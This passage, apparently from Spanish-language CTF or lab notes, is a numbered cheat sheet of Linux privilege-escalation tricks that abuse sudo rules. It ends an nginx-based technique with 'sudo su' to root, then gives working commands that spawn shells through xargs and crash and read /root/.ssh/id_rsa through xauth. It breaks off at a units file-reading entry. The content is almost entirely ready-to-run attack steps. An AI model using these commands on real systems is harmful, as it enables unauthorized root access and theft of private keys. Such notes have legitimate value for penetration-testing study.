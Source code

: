     server {
        listen 8080;  # Usa un puerto no ocupado
        location / {
            return 200;
        }
    }
}

-ejecutamos

 curl http://localhost:8080 

y si no funciona curl:

wget http://localhost:8080

- volvemos a ejecutar sudo -l
me tiene que aparecer:

    (ALL) NOPASSWD: ALL

- hago sudo su y listo soy root !!!

82.-	/usr/bin/xargs

(jones) NOPASSWD: /usr/bin/xargs


sudo -u jones /usr/bin/xargs -a /dev/null sh

83.-	/usr/bin/crash


(travis) NOPASSWD: /usr/bin/crash

sudo -u travis /usr/bin/crash -h

se nos abre una ventana y escribimos:

!sh

84.-	/usr/bin/xauth

(root) NOPASSWD: /usr/bin/xauth

sudo /usr/bin/xauth

se nos abre una pantalla interactiva y ejecutamos el comando " ? " :

xauth> ?

luego:

xauth> source /root/.ssh/id_rsa

Nota:

- Podemos ver archivos que con un usuario normal no podemos ver.

85.-	/usr/bin/units

(root) NOPASSWD: /usr/bin/units

con la opción -f podemos leer archivos:
